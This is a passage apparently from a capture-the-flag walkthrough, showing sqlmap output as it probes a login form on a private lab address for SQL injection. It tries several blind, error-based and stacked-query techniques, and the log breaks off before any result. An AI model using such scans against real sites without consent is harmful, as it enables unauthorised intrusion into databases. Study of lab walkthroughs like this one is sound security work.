 ### SQLMap Full Command 

{% highlight bash %}
         _
___ ___| |_____ ___ ___  {1.0-dev-nongit-20150826}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets
without prior mutual consent is illegal. It is the end user's
responsibility to obey all applicable local, state and federal
laws. Developers assume no liability and are not responsible
for any misuse or damage caused by this program

[*] starting at 13:38:08

[13:38:08] [INFO] testing connection to the target URL
[13:38:08] [INFO] heuristics detected web page charset 'ascii'
[13:38:08] [INFO] searching for forms
[#1] form:
POST http://192.168.30.140:1337/978345210/index.php
POST data: username=&password=&submit=%20Login%20
do you want to test this form? [Y/n/q] 
> Y

do you want to fill blank fields with random values? [Y/n] Y
[13:38:18] [INFO] using
'/root/.sqlmap/output/results-11232015_0138pm.csv' as the CSV
results file in multiple targets mode
[13:38:18] [INFO] heuristics detected web page charset 'ascii'
[13:38:18] [INFO] testing if the target URL is stable
[13:38:19] [INFO] target URL is stable
[13:38:19] [INFO] testing if POST parameter 'username' is
dynamic
[13:38:19] [WARNING] POST parameter 'username' does not appear
dynamic
[13:38:19] [WARNING] heuristic (basic) test shows that POST
parameter 'username' might not be injectable
[13:38:19] [INFO] testing for SQL injection on POST parameter
'username'
[13:38:19] [INFO] testing 'AND boolean-based blind - WHERE or
HAVING clause'
[13:38:20] [INFO] testing 'MySQL >= 5.0 boolean-based blind -
Parameter replace'
[13:38:20] [INFO] testing 'MySQL >= 5.0 AND error-based -
WHERE, HAVING, ORDER BY or GROUP BY clause'
[13:38:20] [INFO] testing 'PostgreSQL AND error-based - WHERE
or HAVING clause'
[13:38:21] [INFO] testing 'Microsoft SQL Server/Sybase AND
error-based - WHERE or HAVING clause'
[13:38:21] [INFO] testing 'Oracle AND error-based - WHERE or
HAVING clause (XMLType)'
[13:38:21] [INFO] testing 'MySQL >= 5.0 error-based - Parameter
replace'
[13:38:21] [INFO] testing 'MySQL inline queries'
[13:38:21] [INFO] testing 'PostgreSQL inline queries'
[13:38:21] [INFO] testing 'Microsoft SQL Server/Sybase inline
queries'
[13:38:21] [INFO] testing 'MySQL > 5.0.11 stacked queries
(SELECT - comment)'
[13:38:21] [INFO] testing 'PostgreSQL > 8.1 stacked queries
(comment)'